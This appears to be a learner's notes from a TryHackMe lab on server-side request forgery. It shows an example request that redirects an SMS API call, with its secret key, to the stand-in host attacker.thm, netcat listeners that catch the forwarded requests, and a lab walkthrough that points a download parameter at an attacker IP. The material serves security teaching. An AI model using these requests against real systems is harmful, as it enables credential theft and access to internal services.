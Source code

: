This type of vulnerability occurs when an attacker can coerce a web application into sending requests on their behalf to arbitrary destinations while having control of the contents of the request itself. SSRF vulnerabilities often arise from implementations where our web application needs to use third-party services.

Think, for example, of a web application that uses an external API to send SMS notifications to its clients. For each email, the website needs to make a web request to the SMS provider's server to send the content of the message to be sent. Since the SMS provider charges per message, they require you to add a secret key, which they pre-assign to you, to each request you make to their API. The API key serves as an authentication token and allows the provider to know to whom to bill each message. The application would work like this:

![SSRF](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/271d0075650cdf6499f994f99fa7eb8a.png)  

By looking at the diagram above, it is easy to see where the vulnerability lies. The application exposes the `server` parameter to the users, which defines the server name of the SMS service provider. If the attacker wanted, they could simply change the value of the `server` to point to a machine they control, and your web application would happily forward the SMS request to the attacker instead of the SMS provider. As part of the forwarded message, the attacker would obtain the API key, allowing them to use the SMS service to send messages at your expense. To achieve this, the attacker would only need to make the following request to your website:

`https://www.mysite.com/sms?server=attacker.thm&msg=ABC`

This would make the vulnerable web application make a request to:

`https://attacker.thm/api/send?msg=ABC` 

You could then just capture the contents of the request using Netcat:

AttackBox

```shell-session
user@attackbox$ nc -lvp 80
Listening on 0.0.0.0 80
Connection received on 10.10.1.236 43830
GET /:8087/public-docs/123.pdf HTTP/1.1
Host: 10.10.10.11
User-Agent: PycURL/7.45.1 libcurl/7.83.1 OpenSSL/1.1.1q zlib/1.2.12 brotli/1.0.9 nghttp2/1.47.0
Accept: */*
```

This is a really basic case of SSRF. If this doesn't look that scary, SSRF can actually be used to do much more. In general, depending on the specifics of each scenario, SSRF can be used for:  

-   Enumerate internal networks, including IP addresses and ports.
-   Abuse trust relationships between servers and gain access to otherwise restricted services.
-   Interact with some non-HTTP services to get remote code execution (RCE).

Let's quickly look at how we can use SSRF to abuse some trust relationships.

Practical Example

```
http://10.10.89.200:8087/admin

Admin interface only available from localhost!!!

 <a href="/download?server=secure-file-storage.com:8087&id=75482342" class="w3-button w3-light-grey w3-padding-large w3-margin-top">
      <i class="fa fa-download"></i> Download Resume
    </a>

http://10.10.89.200:8087/download?server=secure-file-storage.com:8087&id=75482342

10.10.89.200:8087/download?server=10.8.19.103:8087&id=75482342

──(witty㉿kali)-[~/Downloads]
└─$ rlwrap nc -lvnp 8087
listening on [any] 8087 ...
```